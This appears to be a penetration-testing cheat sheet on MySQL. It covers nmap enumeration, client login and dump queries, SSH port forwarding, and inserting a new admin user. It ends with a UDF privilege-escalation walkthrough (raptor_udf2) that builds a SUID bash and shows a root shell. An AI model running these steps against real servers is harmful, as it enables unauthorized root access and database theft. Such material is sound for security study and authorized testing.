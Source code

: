 # MySQL

MySQL usually runs on port `3306`.

Nmap targeted scan:

```bash
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse -p 3306 10.10.10.10
```

Check if MySQL port is open locally:

```bash
# Linux
netstat -tulpn
ss -lntu
lsof -i
```

## MySQL Client

Interact with local MySQL:

```bash
# Interactive login to database (asks for password)
mysql -u root -p

# Supply password via parameter (no space after -p is on purpose)
mysql -u root -pPassWord
mysql -u admin_user -p's0m3p4ss!§$'

# Execute query as one-liner (non-interactive)
mysql -u admin_user -p's0m3p4ss!§$' -e 'SHOW DATABASES;'
mysql -u admin_user -p's0m3p4ss!§$' -e 'USE mydatabase; SHOW TABLES;'
mysql -u admin_user -p's0m3p4ss!§$' -e 'USE mydatabase; SELECT * FROM users;'

# Use specific database
mysql -u admin_user -p's0m3p4ss!§$' -D mydatabase
mysql -u admin_user -p's0m3p4ss!§$' -D mydatabase -e 'SHOW TABLES;'
```


Interact with remote MySQL:

```bash
mysql --host 10.10.10.10 --port 3306 -u root -p
mysql -h 10.10.10.10 -P 3306 -u root -p
```

## Port Forward MySQL Port

Forward remote MySQL port to your local machine with SSH.

Let's assume you have SSH access to a remote host that runs MySQL, but that server is only accessible from localhost.

Example SSH credentials:

* user: myuser
* pass: iloveyou

```bash
# Local port forward example:
ssh -N -L 1337:127.0.0.1:3306 myuser@targethost
## Type SSH password: iloveyou
## Shell will "freeze"

# In another shell confirm local port 1337 is open
netstat -tulpn
##  127.0.0.1:1337  LISTEN

# Log into forwarded mysql server:
mysql -u root -p -h 127.0.0.1 -P 1337
```

For more info on port forwarding see [SSH Cheatsheet - Port Forwarding](./ssh.md#port-forwarding).

## Common Queries

Enumerate Database Engine and version:

```bash
# Common MySQL
SELECT VERSION();
SELECT version();
SELECT @@version;

# Oracle
SELECT banner from v$version;
```

Basic Navigation:

```bash
# show all accessible databases
SHOW DATABASES;

# switch to a particular database
USE website_db;

# list tables in current database
SHOW TABLES;
```

Dump table content:
```bash
SELECT * from users;
SELECT username, password from users;
```

Enumerate column names for a particular table:

```bash
# Common MySQL
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
SELECT TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE WHERE table_name = 'Users'

# Oracle
SELECT * FROM all_tab_columns
SELECT COLUMN_NAME,DATA_TYPE,TABLE_NAME FROM all_tab_columns WHERE TABLE_NAME='users'
```

Alternative way to enumerate table names:

```bash
# Common MySQL
SELECT * FROM information_schema.tables
SELECT TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE FROM information_schema.tables

# Oracle
SELECT * FROM all_tables
SELECT TABLE_NAME,TABLESPACE_NAME,OWNER FROM all_tables
```

Insert into table:

```bash
# Syntax
INSERT INTO table_name (column1, column2, column3, ...) VALUES (value1, value2, value3, ...); 

# Example
INSERT INTO users (username, password) VALUES ("new_admin", "5F4DCC3B5AA765D61D8327DEB882CF99"); 
```

## MySQL Common Exploit - User-Defined Function (UDF)

* MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)
* Exploit: https://www.exploit-db.com/exploits/1518

This should also work with version 5+

Requirements:

* The mysqld process runs as root
* We can connect to MySQL as root user. Either because we do not have to supply a password. Or because we know the mysql root user password from enumeration.


Compile the exploit (preferably on target machine).

Regular x86:
```bash
gcc -g -c raptor_udf2.c
```

For x64:
```bash
gcc -g -c raptor_udf2.c -fPIC
```


Create a shared object from the exploit binary:
```bash
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

On the target, create the plugin/function and use it to make suid copy of bash:

```bash
$ mysql -u root -p
Enter password:
[...]
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/exploit/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
mysql> select do_system('cp /bin/bash /tmp/rootshell; chmod +s /tmp/rootshell');

```

To gain a root shell just execute the copied bash binary:

```bash
$ /tmp/rootshell -p
rootshell-4.1# whoami
root
```

-p flag to keep the SUID, bash would otherwise automatically drop it.


### Troubeshooting

If the file copied to the plugin directory has byte size 0, then mysql could not read your .so file. Pick a different source directory.

Depending on the version of MySQL you will have to change plugin directory. Here in version 5 it is `/usr/lib/mysql/plugin/`.

In the original exploit description they just write to `/usr/lib/` (presumably for version 4). Do some googling.

You might be able to figure out the plugin directory with:

```bash
mysql> show variables like 'plugin_dir';
```

### MariaDB

This alsow works for affected MariaDB versions, but the plugin directory is different:

```bash
/usr/lib/x86_64-linux-gnu/mariadb18/plugin/raptor_udf2.so
/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so
```

Might require some research on your end.

